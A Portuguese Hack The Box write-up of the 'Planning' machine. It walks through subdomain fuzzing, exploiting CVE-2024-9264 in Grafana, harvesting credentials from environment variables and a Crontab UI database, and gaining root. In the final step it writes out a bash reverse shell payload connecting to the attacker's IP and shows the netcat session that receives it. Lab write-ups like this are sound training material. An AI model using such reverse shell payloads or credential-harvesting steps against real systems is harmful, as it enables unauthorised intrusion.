

## Command Injection e LFI no Grafana. 

---

![[Planning.png]]

## Introdução

Olá mundo! Sejam todos bem vindos à mais uma aventura na minha jornada no mundo da cibersegurança. Hoje vamos falar da máquina **`Planning`**, uma máquina **[[assumed breach]]** classificada como de dificuldade fácil no **[Hackthebox](https://www.hackthebox.com)**, onde recebemos as seguintes credenciais no início - **`admin : 0D5oT70Fq13EvB5r`**.

Após a verredura inicial encontramos um site chamado **Edukate**, que oferece cursos online. Ao fazer a varredura de subdomínios, encontramos uma página de login do **[[Grafana]]**, cuja versão é vulnerável à **`CVE-2024-9264 Command Injection and LFI in Grafana`**. Usando uma POC pública, obtemos acesso remoto ao **`Docker container`** que hospeda a aplicação. Olhando as variáveis de ambiente, encontramos as credenciais [[SSH]] do usuário **`enzo`**. Já logado como **`enzo`**, encontramos credenciais do **`root`** em um arquivo de backup do **`Crontab UI`**. Porém a senha do **`root`** não funciona no **`SSH`**, mas funciona no **`Crontab UI`**, que está rodando na porta 8000 da rede interna. Conseguimos o **`root`** da máquina por criar um novo **`job`** que iniciará uma conexão remota, trazendo um shell **`root`**.

Essa parece ser uma aventura e tanto, então vamos começar.

---

## Enumeração

### Nmap

Após rodar a ferramenta [[NMAP]] obtive o resultado abaixo:

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Planning]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -Pn -p$ports -sC -sV -oA nmap/$machine -vv $IP
[sudo] password for kali:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-13 12:49 EDT

--<SNIPED>--

PORT      STATE  SERVICE REASON         VERSION
22/tcp    open   ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp    open   http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
8527/tcp  closed unknown reset ttl 63
19595/tcp closed unknown reset ttl 63
24108/tcp closed unknown reset ttl 63
24577/tcp closed bilobit reset ttl 63
27127/tcp closed unknown reset ttl 63
27714/tcp closed unknown reset ttl 63
28401/tcp closed unknown reset ttl 63
34945/tcp closed unknown reset ttl 63
37376/tcp closed unknown reset ttl 63
41373/tcp closed unknown reset ttl 63
43028/tcp closed unknown reset ttl 63
44471/tcp closed unknown reset ttl 63
53816/tcp closed unknown reset ttl 63
62199/tcp closed unknown reset ttl 63
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:49
Completed NSE at 12:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:49
Completed NSE at 12:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:49
Completed NSE at 12:49, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.48 seconds
           Raw packets sent: 16 (704B) | Rcvd: 16 (648B)

```

Haviam duas portas abertas (22 ssh, 80 http) e várias outras fechadas. Havia também um redirecionamento para **`planning.htb`**, que eu prontamente adicionei ao meu arquivo **`/etc/hosts`**.

### Home Page

Visitando então a página **`http://planning.htb/`**, me deparei com a seguinte *home page*.

![[plan-0.png]]

O site tem um formulário para contato e um formulário para inscrição de curso. Mas nenhum dos dois formulários realmente tem alguma funcionalidade. Então comecei a procurar subdomínios.

### O dilema do dicionário

![[plan-2.png]]

Usando a ferramenta [[FFUF]], comecei usando meu comando habitual, que usa sempre o mesmo dicionário de palavras. Minha esperança é encontrar alguma página de login, visto já tinha credenciais de admin dadas pelo **`Hackthebox`** e elas não funcionavam no **`SSH`**.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Planning]
└─$ ffuf -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://planning.htb -H "Host: FUZZ.planning.htb" -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 166 req/sec :: Duration: [0:02:02] :: Errors: 0 ::
```

Mas nem mesmo usando um dicionário de 20000 palavras funcionou. Depois disso usei a ferramenta [[Feroxbuster]], na intenção de encontrar qualquer diretório ou arquivo que poderia vazar onde estaria a página de login.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Planning]
└─$ feroxbuster -u http://planning.htb
___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___

by Ben "epi" Risher 🤓                 ver: 2.11.0

───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://planning.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        7l       12w      178c http://planning.htb/js => http://planning.htb/js/
301      GET        7l       12w      178c http://planning.htb/css => http://planning.htb/css/
301      GET        7l       12w      178c http://planning.htb/img => http://planning.htb/img/
200      GET       21l      212w    20494c http://planning.htb/img/team-3.jpg
200      GET      194l      674w    10229c http://planning.htb/course.php
200      GET        1l       38w     2303c http://planning.htb/lib/easing/easing.min.js
200      GET      201l      663w    10632c http://planning.htb/contact.php
200      GET      230l      874w    12727c http://planning.htb/about.php
200      GET        8l       58w     5269c http://planning.htb/img/testimonial-1.jpg
200      GET       60l      404w    29126c http://planning.htb/img/team-2.jpg
200      GET       63l      389w    30916c http://planning.htb/img/team-1.jpg
200      GET      173l      851w    64663c http://planning.htb/img/courses-1.jpg
200      GET      146l      790w    75209c http://planning.htb/img/feature.jpg
301      GET        7l       12w      178c http://planning.htb/lib => http://planning.htb/lib/
200      GET        7l      279w    42766c http://planning.htb/lib/owlcarousel/owl.carousel.min.js
200      GET        5l       89w     5527c http://planning.htb/img/testimonial-2.jpg
200      GET      137l      234w     3338c http://planning.htb/js/main.js
200      GET        6l       64w     2936c http://planning.htb/lib/owlcarousel/assets/owl.carousel.min.css
200      GET       11l       56w     2406c http://planning.htb/lib/counterup/counterup.min.js
403      GET        7l       10w      162c http://planning.htb/lib/owlcarousel/
403      GET        7l       10w      162c http://planning.htb/lib/waypoints/
200      GET      420l     1623w    23914c http://planning.htb/index.php
301      GET        7l       12w      178c http://planning.htb/lib/owlcarousel/assets => http://planning.htb/lib/owlcarousel/assets/
200      GET        7l      158w     9028c http://planning.htb/lib/waypoints/waypoints.min.js
403      GET        7l       10w      162c http://planning.htb/lib/
200      GET      220l      880w    13006c http://planning.htb/detail.php
403      GET        7l       10w      162c http://planning.htb/lib/easing/
403      GET        7l       10w      162c http://planning.htb/lib/owlcarousel/assets/
403      GET        7l       10w      162c http://planning.htb/lib/counterup/
200      GET      128l      607w    48746c http://planning.htb/img/courses-2.jpg
200      GET      136l      656w    53333c http://planning.htb/img/courses-3.jpg
200      GET        0l        0w   183895c http://planning.htb/css/style.css
200      GET        0l        0w    31811c http://planning.htb/img/about.jpg
200      GET      420l     1623w    23914c http://planning.htb/
200      GET       23l      172w     1090c http://planning.htb/lib/owlcarousel/LICENSE
[####################] - 10m   300032/300032  0s      found:35      errors:441
[####################] - 10m    30000/30000   49/s    http://planning.htb/
[####################] - 10m    30000/30000   49/s    http://planning.htb/js/
[####################] - 10m    30000/30000   49/s    http://planning.htb/css/
[####################] - 10m    30000/30000   49/s    http://planning.htb/img/
[####################] - 10m    30000/30000   49/s  http://planning.htb/lib/owlcarousel/
[####################] - 10m    30000/30000   49/s  http://planning.htb/lib/waypoints/
[####################] - 10m    30000/30000   49/s    http://planning.htb/lib/
[####################] - 10m    30000/30000   49/s  http://planning.htb/lib/counterup/
[####################] - 10m    30000/30000   49/s http://planning.htb/lib/owlcarousel/assets/
[####################] - 10m    30000/30000   49/s http://planning.htb/lib/easing/
```

Apesar de ter encontrado vários arquivos, nenhum deles tinha o que eu precisava. Enfim, travado novamente.

Sem muito o que fazer, voltei para os subdomínios. Era bem provável que houvesse uma página de login em algum lugar, mas não tivesse encontrando por que o dicionário de palavras não continha o nome correto. Para provar essa hipótese, usei um dicionário de mais de 150000 palavras.

```bash {24}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Planning]
└─$ ffuf -w /opt/seclists/Discovery/DNS/namelist.txt -u http://planning.htb -H "Host: FUZZ.planning.htb" -ac
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________
  
 :: Method           : GET
 :: URL              : http://planning.htb
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 215ms]
:: Progress: [151265/151265] :: Job [1/1] :: 178 req/sec :: Duration: [0:14:23] :: Errors: 0 ::
```

Estava ali! O problema era *realmente* o dicionário. Depois de comemorar por um momento como se fosse um gol, adicionei `grafana.planning.htb` ao meu  arquivo `/etc/hosts`. 

### Grafana

Visitando a página, era mesmo uma página de login.

![[plan-1.png]]

Olhando o rodapé da página, a versão do grafana é a **`11.0.0`**. Pesquisando essa versão no **Google**, encontrei esse **[artigo](https://ethicalhacking.uk/cve-2024-9264-command-injection-and-local-file-inclusion-in-grafana/)**.

> [!question] Mas o que é Grafana?
> O **`Grafana`** é uma plataforma interativa de visualização de dados **open source**, desenvolvida pela [Grafana Labs](https://www.grafana.com/), que permite aos usuários ver dados por meio de tabelas e gráficos unificados em um painel ou vários, para facilitar a interpretação e a compreensão. O **`Grafana`** também permite consultar e definir alertas sobre suas informações e métricas de qualquer lugar que os dados estejam.
> > [!warning] CVE-2024-9264
> > A vulnerabilidade **CVE-2024-9264** afeta o **`Grafana`** devido ao recurso **`SQL Expressions`**, permitindo ataques **`RCE`** e **`LFI`**. A funcionalidade permanece ativa na **`API`** do **`Grafana`** sem ativação explícita. A exploração depende do **`DuckDB`** instalado e configurado corretamente no **`PATH`** acessível ao **`Grafana`**. O recurso **`SQL Expressions`** conecta-se a um utilitário de linha de comando do **`DuckDB`** para processar dados do DataFrame por meio de operações **`SQL`**. Embora seja possível executar consultas **`SQL`** diretamente nos dados, a falta de validação de entrada criou potenciais vulnerabilidades, permitindo a **execução de comandos** e **acesso não autorizado** ao sistema de arquivos.

O artigo tem uma POC em Golang que é só copiar e colar como `exploit.go`.

> [!tip] 
> Para evitar erros de indentação e quebra de linha, use editores como o **`VS Code`**. Isso evita muitos problemas de copiar e colar o conteúdo da web.

---

## Exploração

### Docker

Ao rodar o exploit, obtive uma shell reversa.

![[plan-4.png]]

A shell reversa era uma shell **`root`**, mas não o **root** que eu gostaria. Na verdade estava conectado em um **`docker`** container rodando uma imagem do **`Grafana`**. Felizmente, rapidamente encontrei novas credenciais olhando as variáveis de ambiente com o comando **`env`**.

```bash {7,19,20}
root@7ce659d667d7:~# ls
ls
LICENSE
bin
conf
public
root@7ce659d667d7:~# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
root@7ce659d667d7:~#
```

### SSH como enzo

Usando as novas credenciais **`enzo : RioTecRANDEntANT!`** no **`SSH`**, consegui uma conexão estável com o servidor e obtive a flag do usuário.

```bash {34,35}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Planning]
└─$ ssh enzo@planning.htb
enzo@planning.htb\'s password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue May 13 09:10:35 PM UTC 2025

  System load:           0.0
  Usage of /:            67.2% of 6.30GB
  Memory usage:          47%
  Swap usage:            0%
  Processes:             231
  Users logged in:       0
  IPv4 address for eth0: 10.129.254.133
  IPv6 address for eth0: dead:beef::250:56ff:fe94:cce

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.
1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Tue May 13 21:10:36 2025 from 10.10.14.177

enzo@planning:~$
enzo@planning:~$ ls
user.txt
enzo@planning:~$ cat user.txt
3fb75eea8b5313ee1d82333be78d8cb0
enzo@planning:~$
```

## Escalação de Privilégios

### Crontab UI

Depois de ter investigado um bom tempo, encontrei um arquivo chamado **`/opt/crontabs/crontab.db`**. Depois de ler o arquivo, obtive uma senha para o usuário **`root`**.

```bash {11-13}
enzo@planning:~$ cd /opt
enzo@planning:/opt$ ls
containerd  crontabs
enzo@planning:/opt$ cd crontabs/
enzo@planning:/opt/crontabs$ ls
crontab.db
enzo@planning:/opt/crontabs$ file crontab.db
crontab.db: New Line Delimited JSON text data
enzo@planning:/opt/crontabs$ cat crontab.db | jq
{
  "name": "Grafana backup",
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
  "schedule": "@daily",
  "stopped": false,
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740774983276,
  "saved": false,
  "_id": "GTI22PpoJNtRKg0W"
}
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
enzo@planning:/opt/crontabs$
```

No entanto, ao usar o comando **`su -`** ou **`su root`**, a senha **`P4ssw0rdS0pRi0T3c`** não funciona. O que significa que essa não é a senha do **`SSH`**. 

Por isso eu passei a listar as conexões de rede usando o comando **`ss`** e encontrei a porta 8000 como **`LISTEN`**, ou escutando.

```bash {9}
enzo@planning:/opt/crontabs$ ss -ltn
State              Recv-Q             Send-Q                          Local Address:Port                            Peer Address:Port             Process
LISTEN             0                  511                                   0.0.0.0:80                                   0.0.0.0:*
LISTEN             0                  4096                               127.0.0.54:53                                   0.0.0.0:*
LISTEN             0                  70                                  127.0.0.1:33060                                0.0.0.0:*
LISTEN             0                  151                                 127.0.0.1:3306                                 0.0.0.0:*
LISTEN             0                  4096                                127.0.0.1:3000                                 0.0.0.0:*
LISTEN             0                  4096                            127.0.0.53%lo:53                                   0.0.0.0:*
LISTEN             0                  511                                 127.0.0.1:8000                                 0.0.0.0:*
LISTEN             0                  4096                                127.0.0.1:43723                                0.0.0.0:*
LISTEN             0                  4096                                        *:22                                         *:*
```

Para me conectar ao serviço que está rodando na porta 8000, precisei criar um túneo **`SSH`** para conectar minha porta 8888 com a porta 8000 do servidor.

```bash {6}
enzo@planning:/opt/crontabs$ exit
logout
Connection to planning.htb closed.

┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Planning]
└─$ ssh -L 8888:127.0.0.1:8000 enzo@planning.htb
enzo@planning.htb\'s password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue May 13 09:32:41 PM UTC 2025

  System load:           0.0
  Usage of /:            67.3% of 6.30GB
  Memory usage:          48%
  Swap usage:            0%
  Processes:             233
  Users logged in:       0
  IPv4 address for eth0: 10.129.254.133
  IPv6 address for eth0: dead:beef::250:56ff:fe94:cce


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue May 13 21:32:42 2025 from 10.10.14.177
enzo@planning:~$
```

Em seguida, acessei a porta 8888 localhost, e encontrei um pop-up **`javascript`** que pede usuário e senha.

![[plan-5.png]]

### Shell como root

Colocando as credenciais **`root : P4ssw0rdS0pRi0T3c`**, acessei o **`Crontab UI`**. O serviço permite criar **`cronjobs`** sem a necessidade de entender como fazer isso em linha de comando. 

![[plan-6.png]]

Como havia visto no arquivo **`crontab.db`**, o usuário **`root`** é quem possui os direitos de execução desse serviço. Assim, criei um novo job chamado **`pwned`**, com o seguinte payload: **`/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.177/9001 0>&1'`**. Em seguida salvei e deixei meu **`netcat`**  "escutando".

![[plan-7.png]]

Ao rodar o novo job, meu **`netcat`** recebeu a conexão reversa como **`root`**. Então pude ler o conteúdo da flag do **`root`**.

```bash {13,15}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Easy/Planning]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.177] from (UNKNOWN) [10.129.254.133] 51852
bash: cannot set terminal process group (1439): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# whoami
whoami
root
root@planning:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@planning:/# cat /root/root.txt
cat /root/root.txt
0233e3987cbdc0f55bb4ebe0688071e1
root@planning:/# 
```

## Conclusão

![[PlanningFinal.png]]

Essa máquina foi bem divertida e me ensinou sobre a necessidade da resiliência e de testar as mesmas técnicas com ferramentas ou dicionários diferentes. Também aprendi um pouco sobre **`Grafana`** e **`Crontab UI`**.

Espero muito que você tenha gostado desse write-up. O diagrama abaixo mostra os principais passos para se obter o **`root`**. Obrigado por ter lido até o final e até a próxima!

